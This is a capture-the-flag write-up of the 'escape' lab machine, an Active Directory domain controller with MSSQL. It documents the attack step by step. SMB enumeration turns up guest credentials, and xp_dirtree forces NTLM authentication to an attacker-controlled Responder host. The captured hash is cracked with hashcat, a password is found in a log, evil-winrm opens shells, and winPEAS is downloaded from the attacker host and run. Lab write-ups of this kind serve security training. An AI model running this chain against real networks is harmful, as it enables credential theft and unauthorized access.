


# escape

| Hostname   | Difficulty |
| ---        | ---        |
| escape     | Medium     |

Machine IP: 10.10.11.202 :

```bash
TARGET=10.10.11.202       # escape IP address
```

## Initial Reconnaissance

### Ports and services


```shell
nmap 10.10.11.202 -p- -sC -sV -A -T4
```

```text
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-16 15:23 CEST
Nmap scan report for 10.10.11.202
Host is up (0.018s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-06-16 21:25:31Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-06-16T21:27:05+00:00; +8h00m02s from scanner time.
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.sequel.htb
| Not valid before: 2022-11-18T21:20:35
|_Not valid after:  2023-11-18T21:20:35
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.sequel.htb
| Not valid before: 2022-11-18T21:20:35
|_Not valid after:  2023-11-18T21:20:35
|_ssl-date: 2023-06-16T21:27:04+00:00; +8h00m01s from scanner time.
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2023-06-16T21:27:05+00:00; +8h00m02s from scanner time.
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-06-16T01:00:24
|_Not valid after:  2053-06-16T01:00:24
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-06-16T21:27:05+00:00; +8h00m02s from scanner time.
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.sequel.htb
| Not valid before: 2022-11-18T21:20:35
|_Not valid after:  2023-11-18T21:20:35
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.sequel.htb
| Not valid before: 2022-11-18T21:20:35
|_Not valid after:  2023-11-18T21:20:35
|_ssl-date: 2023-06-16T21:27:04+00:00; +8h00m01s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         Microsoft Windows RPC
49709/tcp open  msrpc         Microsoft Windows RPC
49715/tcp open  msrpc         Microsoft Windows RPC
54109/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-06-16T21:26:25
|_  start_date: N/A
|_clock-skew: mean: 8h00m01s, deviation: 0s, median: 8h00m00s

TRACEROUTE (using port 139/tcp)
HOP RTT      ADDRESS
1   17.17 ms 10.10.14.1
2   17.27 ms 10.10.11.202

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 189.05 seconds
```


dc.sequel.htb


```shell
smbclient -L //10.10.11.202
```

```text
Enter WORKGROUP\root's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Public          Disk      
	SYSVOL          Disk      Logon server share 
```

```shell
smbclient -U '%' -N //10.10.11.202/Public
```

```text
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Nov 19 12:51:25 2022
  ..                                  D        0  Sat Nov 19 12:51:25 2022
  SQL Server Procedures.pdf           A    49551  Fri Nov 18 14:39:43 2022

		5184255 blocks of size 4096. 1449976 blocks available
smb: \> get "SQL Server Procedures.pdf"
getting file \SQL Server Procedures.pdf of size 49551 as SQL Server Procedures.pdf (448.1 KiloBytes/sec) (average 448.1 KiloBytes/sec)
smb: \>
```






PublicUser : GuestUserCantWrite1

```
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
```


https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server

```shell
mssqlclient.py PublicUser:GuestUserCantWrite1@10.10.11.202 
```

```text
Impacket for Exegol - v0.10.1.dev1+20230318.114933.11c51f7 - Copyright 2022 Fortra - forked by ThePorgs

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (PublicUser  guest@master)>
```

## Initial access

### Exploitation

Steal NetNTLM hash / Relay attack

responder

```
SQL (PublicUser  guest@master)> exec master.dbo.xp_dirtree '\\10.10.14.2\any\thing\'
```

On responder :

```text
[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.10.11.202
[SMB] NTLMv2-SSP Username : sequel\sql_svc
[SMB] NTLMv2-SSP Hash     : sql_svc::sequel:1122334455667788:C1F7AFF3E17446D01732C3DC881D0330:010100000000000000B0FA9D9AA0D901F237915E512A9C630000000002000800510042003300470001001E00570049004E002D004D003600580045004300540035004D0059004E00440004003400570049004E002D004D003600580045004300540035004D0059004E0044002E0051004200330047002E004C004F00430041004C000300140051004200330047002E004C004F00430041004C000500140051004200330047002E004C004F00430041004C000700080000B0FA9D9AA0D9010600040002000000080030003000000000000000000000000030000003E9D26DD48A3602DD3F4C5496C92482AA39BE96AF61EACA3DDB3CE092492B0B0A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002E0032000000000000000000
[*] Skipping previously captured hash for sequel\sql_svc
```


```
echo "sql_svc::sequel:1122334455667788:C1F7AFF3E17446D01732C3DC881D0330:010100000000000000B0FA9D9AA0D901F237915E512A9C630000000002000800510042003300470001001E00570049004E002D004D003600580045004300540035004D0059004E00440004003400570049004E002D004D003600580045004300540035004D0059004E0044002E0051004200330047002E004C004F00430041004C000300140051004200330047002E004C004F00430041004C000500140051004200330047002E004C004F00430041004C000700080000B0FA9D9AA0D9010600040002000000080030003000000000000000000000000030000003E9D26DD48A3602DD3F4C5496C92482AA39BE96AF61EACA3DDB3CE092492B0B0A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002E0032000000000000000000" > hash.txt
```

```shell
hashcat -m 5600 -a 0 ./hash.txt /usr/share/wordlists/rockyou.txt
```

```
SQL_SVC::sequel:1122334455667788:c1f7aff3e17446d01732c3dc881d0330:010100000000000000b0fa9d9aa0d901f237915e512a9c630000000002000800510042003300470001001e00570049004e002d004d003600580045004300540035004d0059004e00440004003400570049004e002d004d003600580045004300540035004d0059004e0044002e0051004200330047002e004c004f00430041004c000300140051004200330047002e004c004f00430041004c000500140051004200330047002e004c004f00430041004c000700080000b0fa9d9aa0d9010600040002000000080030003000000000000000000000000030000003e9d26dd48a3602dd3f4c5496c92482aa39be96af61eaca3ddb3ce092492b0b0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0032000000000000000000:REGGIE1234ronnie
```

New credential found :

SQL_SVC:REGGIE1234ronnie

```shell
 evil-winrm -i 10.10.11.202 -u sql_svc -p REGGIE1234ronnie
```

```text
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\sql_svc\Documents>
```

What are current privileges ?

```shell
whoami /all
```

```text
USER INFORMATION
----------------

User Name      SID
============== ==============================================
sequel\sql_svc S-1-5-21-4078382237-1492182817-2568127209-1106


GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

some users :

```
*Evil-WinRM* PS C:\Users> ls


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         2/7/2023   8:58 AM                Administrator
d-r---        7/20/2021  12:23 PM                Public
d-----         2/1/2023   6:37 PM                Ryan.Cooper
d-----         2/7/2023   8:10 AM                sql_svc
```

```shell
net users
```

```
User accounts for \\

-------------------------------------------------------------------------------
Administrator            Brandon.Brown            Guest
James.Roberts            krbtgt                   Nicole.Thompson
Ryan.Cooper              sql_svc                  Tom.Henn
The command completed with one or more errors.
```

## Post-Exploitation

### Host Reconnaissance

Backup file found :

```text
    Directory: C:\SQLServer\Logs


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         2/7/2023   8:06 AM          27608 ERRORLOG.BAK
```

```powershell
 get-content -path C:\SQLServer\Logs\ERRORLOG.BAK
```

```text
2022-11-18 13:43:05.96 Server      Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64)
	Sep 24 2019 13:48:23
	Copyright (C) 2019 Microsoft Corporation
	Express Edition (64-bit) on Windows Server 2019 Standard Evaluation 10.0 <X64> (Build 17763: ) (Hypervisor)

2022-11-18 13:43:05.97 Server      UTC adjustment: -8:00
2022-11-18 13:43:05.97 Server      (c) Microsoft Corporation.
2022-11-18 13:43:05.97 Server      All rights reserved.
2022-11-18 13:43:05.97 Server      Server process ID is 3788.
2022-11-18 13:43:05.97 Server      System Manufacturer: 'VMware, Inc.', System Model: 'VMware7,1'.
2022-11-18 13:43:05.97 Server      Authentication mode is MIXED.
2022-11-18 13:43:05.97 Server      Logging SQL Server messages in file 'C:\Program Files\Microsoft SQL Server\MSSQL15.SQLMOCK\MSSQL\Log\ERRORLOG'.
2022-11-18 13:43:05.97 Server      The service account is 'NT Service\MSSQL$SQLMOCK'. This is an informational message; no user action is required.
2022-11-18 13:43:05.97 Server      Registry startup parameters:
	 -d C:\Program Files\Microsoft SQL Server\MSSQL15.SQLMOCK\MSSQL\DATA\master.mdf
	 -e C:\Program Files\Microsoft SQL Server\MSSQL15.SQLMOCK\MSSQL\Log\ERRORLOG
	 -l C:\Program Files\Microsoft SQL Server\MSSQL15.SQLMOCK\MSSQL\DATA\mastlog.ldf
2022-11-18 13:43:05.97 Server      Command Line Startup Parameters:
	 -s "SQLMOCK"
	 -m "SqlSetup"
	 -Q
	 -q "SQL_Latin1_General_CP1_CI_AS"
	 -T 4022
	 -T 4010
	 -T 3659
	 -T 3610
	 -T 8015
2022-11-18 13:43:05.97 Server      SQL Server detected 1 sockets with 1 cores per socket and 1 logical processors per socket, 1 total logical processors; using 1 logical processors based on SQL Server licensing. This is an informational message; no user action is required.
2022-11-18 13:43:05.97 Server      SQL Server is starting at normal priority base (=7). This is an informational message only. No user action is required.
2022-11-18 13:43:05.97 Server      Detected 2046 MB of RAM. This is an informational message; no user action is required.
2022-11-18 13:43:05.97 Server      Using conventional memory in the memory manager.
2022-11-18 13:43:05.97 Server      Page exclusion bitmap is enabled.
2022-11-18 13:43:05.98 Server      Buffer Pool: Allocating 262144 bytes for 166158 hashPages.
2022-11-18 13:43:06.01 Server      Default collation: SQL_Latin1_General_CP1_CI_AS (us_english 1033)
2022-11-18 13:43:06.04 Server      Buffer pool extension is already disabled. No action is necessary.
2022-11-18 13:43:06.06 Server      Perfmon counters for resource governor pools and groups failed to initialize and are disabled.
2022-11-18 13:43:06.07 Server      Query Store settings initialized with enabled = 1,
2022-11-18 13:43:06.07 Server      This instance of SQL Server last reported using a process ID of 5116 at 11/18/2022 1:43:04 PM (local) 11/18/2022 9:43:04 PM (UTC). This is an informational message only; no user action is required.
2022-11-18 13:43:06.07 Server      Node configuration: node 0: CPU mask: 0x0000000000000001:0 Active CPU mask: 0x0000000000000001:0. This message provides a description of the NUMA configuration for this computer. This is an informational message only. No user action is required.
2022-11-18 13:43:06.07 Server      Using dynamic lock allocation.  Initial allocation of 2500 Lock blocks and 5000 Lock Owner blocks per node.  This is an informational message only.  No user action is required.
2022-11-18 13:43:06.08 Server      In-Memory OLTP initialized on lowend machine.
2022-11-18 13:43:06.08 Server      The maximum number of dedicated administrator connections for this instance is '1'
2022-11-18 13:43:06.09 Server      [INFO] Created Extended Events session 'hkenginexesession'

2022-11-18 13:43:06.09 Server      Database Instant File Initialization: disabled. For security and performance considerations see the topic 'Database Instant File Initialization' in SQL Server Books Online. This is an informational message only. No user action is required.
2022-11-18 13:43:06.10 Server      CLR version v4.0.30319 loaded.
2022-11-18 13:43:06.10 Server      Total Log Writer threads: 1. This is an informational message; no user action is required.
2022-11-18 13:43:06.13 Server      Database Mirroring Transport is disabled in the endpoint configuration.
2022-11-18 13:43:06.13 Server      clflushopt is selected for pmem flush operation.
2022-11-18 13:43:06.14 Server      Software Usage Metrics is disabled.
2022-11-18 13:43:06.14 spid9s      Warning ******************
2022-11-18 13:43:06.36 spid9s      SQL Server started in single-user mode. This an informational message only. No user action is required.
2022-11-18 13:43:06.36 Server      Common language runtime (CLR) functionality initialized using CLR version v4.0.30319 from C:\Windows\Microsoft.NET\Framework64\v4.0.30319\.
2022-11-18 13:43:06.37 spid9s      Starting up database 'master'.
2022-11-18 13:43:06.38 spid9s      The tail of the log for database master is being rewritten to match the new sector size of 4096 bytes.  2048 bytes at offset 419840 in file C:\Program Files\Microsoft SQL Server\MSSQL15.SQLMOCK\MSSQL\DATA\mastlog.ldf will be written.
2022-11-18 13:43:06.39 spid9s      Converting database 'master' from version 897 to the current version 904.
2022-11-18 13:43:06.39 spid9s      Database 'master' running the upgrade step from version 897 to version 898.
2022-11-18 13:43:06.40 spid9s      Database 'master' running the upgrade step from version 898 to version 899.
2022-11-18 13:43:06.41 spid9s      Database 'master' running the upgrade step from version 899 to version 900.
2022-11-18 13:43:06.41 spid9s      Database 'master' running the upgrade step from version 900 to version 901.
2022-11-18 13:43:06.41 spid9s      Database 'master' running the upgrade step from version 901 to version 902.
2022-11-18 13:43:06.52 spid9s      Database 'master' running the upgrade step from version 902 to version 903.
2022-11-18 13:43:06.52 spid9s      Database 'master' running the upgrade step from version 903 to version 904.
2022-11-18 13:43:06.72 spid9s      SQL Server Audit is starting the audits. This is an informational message. No user action is required.
2022-11-18 13:43:06.72 spid9s      SQL Server Audit has started the audits. This is an informational message. No user action is required.
2022-11-18 13:43:06.74 spid9s      SQL Trace ID 1 was started by login "sa".
2022-11-18 13:43:06.74 spid9s      Server name is 'DC\SQLMOCK'. This is an informational message only. No user action is required.
2022-11-18 13:43:06.75 spid14s     Starting up database 'mssqlsystemresource'.
2022-11-18 13:43:06.75 spid9s      Starting up database 'msdb'.
2022-11-18 13:43:06.75 spid18s     Password policy update was successful.
2022-11-18 13:43:06.76 spid14s     The resource database build version is 15.00.2000. This is an informational message only. No user action is required.
2022-11-18 13:43:06.78 spid9s      The tail of the log for database msdb is being rewritten to match the new sector size of 4096 bytes.  3072 bytes at offset 50176 in file C:\Program Files\Microsoft SQL Server\MSSQL15.SQLMOCK\MSSQL\DATA\MSDBLog.ldf will be written.
2022-11-18 13:43:06.78 spid9s      Converting database 'msdb' from version 897 to the current version 904.
2022-11-18 13:43:06.78 spid9s      Database 'msdb' running the upgrade step from version 897 to version 898.
2022-11-18 13:43:06.79 spid14s     Starting up database 'model'.
2022-11-18 13:43:06.79 spid9s      Database 'msdb' running the upgrade step from version 898 to version 899.
2022-11-18 13:43:06.80 spid14s     The tail of the log for database model is being rewritten to match the new sector size of 4096 bytes.  512 bytes at offset 73216 in file C:\Program Files\Microsoft SQL Server\MSSQL15.SQLMOCK\MSSQL\DATA\modellog.ldf will be written.
2022-11-18 13:43:06.80 spid9s      Database 'msdb' running the upgrade step from version 899 to version 900.
2022-11-18 13:43:06.81 spid14s     Converting database 'model' from version 897 to the current version 904.
2022-11-18 13:43:06.81 spid14s     Database 'model' running the upgrade step from version 897 to version 898.
2022-11-18 13:43:06.81 spid9s      Database 'msdb' running the upgrade step from version 900 to version 901.
2022-11-18 13:43:06.81 spid14s     Database 'model' running the upgrade step from version 898 to version 899.
2022-11-18 13:43:06.81 spid9s      Database 'msdb' running the upgrade step from version 901 to version 902.
2022-11-18 13:43:06.82 spid14s     Database 'model' running the upgrade step from version 899 to version 900.
2022-11-18 13:43:06.88 spid18s     A self-generated certificate was successfully loaded for encryption.
2022-11-18 13:43:06.88 spid18s     Server local connection provider is ready to accept connection on [ \\.\pipe\SQLLocal\SQLMOCK ].
2022-11-18 13:43:06.88 spid18s     Dedicated administrator connection support was not started because it is disabled on this edition of SQL Server. If you want to use a dedicated administrator connection, restart SQL Server using the trace flag 7806. This is an informational message only. No user action is required.
2022-11-18 13:43:06.88 spid18s     SQL Server is now ready for client connections. This is an informational message; no user action is required.
2022-11-18 13:43:06.88 Server      SQL Server is attempting to register a Service Principal Name (SPN) for the SQL Server service. Kerberos authentication will not be possible until a SPN is registered for the SQL Server service. This is an informational message. No user action is required.
2022-11-18 13:43:06.88 spid14s     Database 'model' running the upgrade step from version 900 to version 901.
2022-11-18 13:43:06.89 Server      The SQL Server Network Interface library could not register the Service Principal Name (SPN) [ MSSQLSvc/dc.sequel.htb:SQLMOCK ] for the SQL Server service. Windows return code: 0x2098, state: 15. Failure to register a SPN might cause integrated authentication to use NTLM instead of Kerberos. This is an informational message. Further action is only required if Kerberos authentication is required by authentication policies and if the SPN has not been manually registered.
2022-11-18 13:43:06.89 spid14s     Database 'model' running the upgrade step from version 901 to version 902.
2022-11-18 13:43:06.89 spid14s     Database 'model' running the upgrade step from version 902 to version 903.
2022-11-18 13:43:06.89 spid14s     Database 'model' running the upgrade step from version 903 to version 904.
2022-11-18 13:43:07.00 spid14s     Clearing tempdb database.
2022-11-18 13:43:07.06 spid14s     Starting up database 'tempdb'.
2022-11-18 13:43:07.17 spid9s      Database 'msdb' running the upgrade step from version 902 to version 903.
2022-11-18 13:43:07.17 spid9s      Database 'msdb' running the upgrade step from version 903 to version 904.
2022-11-18 13:43:07.29 spid9s      Recovery is complete. This is an informational message only. No user action is required.
2022-11-18 13:43:07.30 spid51      Changed database context to 'master'.
2022-11-18 13:43:07.30 spid51      Changed language setting to us_english.
2022-11-18 13:43:07.33 spid51      Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
2022-11-18 13:43:07.34 spid51      Configuration option 'default language' changed from 0 to 0. Run the RECONFIGURE statement to install.
2022-11-18 13:43:07.34 spid51      Configuration option 'default full-text language' changed from 1033 to 1033. Run the RECONFIGURE statement to install.
2022-11-18 13:43:07.34 spid51      Configuration option 'show advanced options' changed from 1 to 0. Run the RECONFIGURE statement to install.
2022-11-18 13:43:07.39 spid51      Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
2022-11-18 13:43:07.39 spid51      Configuration option 'user instances enabled' changed from 1 to 1. Run the RECONFIGURE statement to install.
2022-11-18 13:43:07.39 spid51      Configuration option 'show advanced options' changed from 1 to 0. Run the RECONFIGURE statement to install.
2022-11-18 13:43:07.44 spid51      Changed database context to 'master'.
2022-11-18 13:43:07.44 spid51      Changed language setting to us_english.
2022-11-18 13:43:07.44 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.72 spid51      Attempting to load library 'xpstar.dll' into memory. This is an informational message only. No user action is required.
2022-11-18 13:43:07.76 spid51      Using 'xpstar.dll' version '2019.150.2000' to execute extended stored procedure 'xp_sqlagent_is_starting'. This is an informational message only; no user action is required.
2022-11-18 13:43:08.24 spid51      Changed database context to 'master'.
2022-11-18 13:43:08.24 spid51      Changed language setting to us_english.
2022-11-18 13:43:09.29 spid9s      SQL Server is terminating in response to a 'stop' request from Service Control Manager. This is an informational message only. No user action is required.
2022-11-18 13:43:09.31 spid9s      .NET Framework runtime has been stopped.
2022-11-18 13:43:09.43 spid9s      SQL Trace was stopped due to server shutdown. Trace ID = '1'. This is an informational message only; no user action is required.
```

Something strange here :
```text
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
```

Did user typed it's password instead of username ?!

`sequel.htb\Ryan.Cooper:NuclearMosquito3`

```shell
 evil-winrm -i 10.10.11.202 -u 'sequel.htb\Ryan.Cooper' -p NuclearMosquito3
```

```text
               
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> whoami
sequel\ryan.cooper
```


```text
whoami /all

USER INFORMATION
----------------

User Name          SID
================== ==============================================
sequel\ryan.cooper S-1-5-21-4078382237-1492182817-2568127209-1105


GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

cp /opt/resources/windows/winPEAS/winPEASx64.exe .
updog

```powershell
iwr -uri http://10.10.14.2:9090/winPEASx64.exe -outfile c:\Users\ryan.cooper\Documents\PEASx64.exe
c:\Users\ryan.cooper\Documents\PEASx64.exe
```


```
Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  sequel
    DefaultUserName               :  Administrator


Enumerating machine and user certificate files

  Issuer             : CN=sequel-DC-CA, DC=sequel, DC=htb
  Subject            :
  ValidDate          : 11/18/2022 1:05:34 PM
  ExpiryDate         : 11/18/2023 1:05:34 PM
  HasPrivateKey      : True
  StoreLocation      : LocalMachine
  KeyExportable      : True
  Thumbprint         : B3954D2D39DCEF1A673D6AEB9DE9116891CE57B2

  Template           : Template=Kerberos Authentication(1.3.6.1.4.1.311.21.8.15399414.11998038.16730805.7332313.6448437.247.1.33), Major Version Number=110, Minor Version Number=0
  Enhanced Key Usages
       Client Authentication     [*] Certificate is used for client authentication!
       Server Authentication
       Smart Card Logon
       KDC Authentication
   =================================================================================================

  Issuer             : CN=sequel-DC-CA, DC=sequel, DC=htb
  Subject            : CN=sequel-DC-CA, DC=sequel, DC=htb
  ValidDate          : 11/18/2022 12:58:46 PM
  ExpiryDate         : 11/18/2121 1:08:46 PM
  HasPrivateKey      : True
  StoreLocation      : LocalMachine
  KeyExportable      : True
  Thumbprint         : A263EA89CAFE503BB33513E359747FD262F91A56

   =================================================================================================

  Issuer             : CN=sequel-DC-CA, DC=sequel, DC=htb
  Subject            : CN=dc.sequel.htb
  ValidDate          : 11/18/2022 1:20:35 PM
  ExpiryDate         : 11/18/2023 1:20:35 PM
  HasPrivateKey      : True
  StoreLocation      : LocalMachine
  KeyExportable      : True
  Thumbprint         : 742AB4522191331767395039DB9B3B2E27B6F7FA

  Template           : DomainController
  Enhanced Key Usages
       Client Authentication     [*] Certificate is used for client authentication!
       Server Authentication
   =================================================================================================

```


https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#explanation


### Privilege Escalation


echo "10.10.11.202 sequel.htb dc.sequel.htb" >> /etc/hosts

ADCS
https://github.com/ly4k/Certipy

